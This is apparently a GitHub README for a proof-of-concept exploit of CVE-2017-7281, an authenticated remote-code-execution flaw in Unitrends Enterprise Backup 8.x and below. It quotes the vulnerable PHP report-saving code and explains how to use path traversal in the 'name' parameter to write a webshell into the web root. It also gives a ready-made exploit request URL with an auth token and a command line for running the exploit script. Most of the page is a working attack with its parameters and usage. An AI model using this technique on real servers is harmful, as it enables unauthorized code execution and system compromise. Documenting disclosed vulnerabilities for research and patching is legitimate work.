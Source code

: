 # CVE-2017-7281: Unitrends Enterprise Backup Solution RCE Via File Upload

## Information
**Description:** Allows authenticated command execution via file upload.  
**Versions Affected:** 8.X and below.  
**Researcher:** Dwight Hohnstein (https://twitter.com/djhohnstein)  
**Disclosure Link:** https://rhinosecuritylabs.com/research/remote-code-execution-bug-hunting-chapter-1/  
**NIST CVE Link:** https://nvd.nist.gov/vuln/detail/CVE-2017-7281  

## Proof-of-Concept Exploit
### Description
Need a valid session. Login to /recoveryconsole and get an auth string. You can open a file anywhere the webserver has access to (user is apache).

Variables: name: For webshells, do ../ all the way to server root (/), then go to /var/www/html/tempPDF/file_prefix contents: file contents you wish to upload report: extension of file type: the action switch to get where we need to. MUST BE SET TO file  

Vulnerable Code:

---------------------------------------------------| From /var/www/html/recoveryconsole/bpl/header.php | ---------------------------------------------------| // Get authentication cookie. $authentication_cookie = isset($_REQUEST['auth']) ? $_REQUEST['auth'] : ""; // The action is the operation the user is taking. $action = isset($_REQUEST['type']) ? $_REQUEST['type'] : "list";

---------------------------------------------------| From /var/www/html/recoveryconsole/bpl/reports.php | ---------------------------------------------------| // variable action from header.php ... switch($action) case "file": if (isset($_GET['report']) && isset($_REQUEST['contents'])) { $reportType = $_GET['report']; $contents = $_REQUEST['contents']; } ... $baseName = isset($_GET['name']) ? $_GET['name'] : 'report'; $reportDirectory = $BP->get_ini_value("Location Information", "Reports-Dir"); if ($reportDirectory === false) { // Since we are not erroring out, log in the error log. // Use the default value /usr/bp/logs.dir. global $Log; $message = $BP->getError() . " - Error retrieving ini field: Location Information, Report-Dir, using default (/usr/bp/re ports.dir)."; $Log->writeError($message, true); $reportDirectory = "/usr/bp/reports.dir"; } $fileName = createReportName($baseName, $reportDirectory, $reportType); $bSuccessful = saveReport($fileName, $contents); if ($bSuccessful === true) { $xml->push("root"); $xml->element("ReportFile", $fileName); $xml->pop(); } else { $errorString = "Error saving report file '" . $fileName . "'."; $BP->buildResult($xml, false, $errorString); } echo($xml->getXml()); break;

...

// This function returns a name of a report (the CSV file) based on the type of report and date/time. // function createReportName($baseName, $directory, $type) { $sName = $directory . '/' . $baseName; $timestamp = time(); $date = date('mdy-His', $timestamp);

    $sName .= $date . '.' . $type;
    
    return $sName;
}

// // This function saves the contents of the report to the file and returns // true if successful and false if not. // function saveReport($file, $contents) { $bSuccessful = false; $fp = fopen($file, 'w+'); if ($fp !== false) { fwrite($fp, $contents); fclose($fp); $bSuccessful = true; } return $bSuccessful; }

Example Request:

https://10.10.10.89/recoveryconsole/bpl/reports.php?type=file&report=php&name=../../../../../../../../var/www/html/tempPDF/rsl&contents=&auth=djA6MjI2ZjYyYTItMWFlNy00MDM4LTkxZTctODkxOGFmMjQ2YjYxOjE6L3Vzci9icC9sb2dzLmRpci9ndWlfcm9vdC5sb2c6MA%3D%3D

### Usage/Exploitation
`python CVE-2017-7281.py -u TARGET -U USERNAME -P PASSWORD`  

### Screenshot
![Alt-text that shows up on hover](poc_image.png)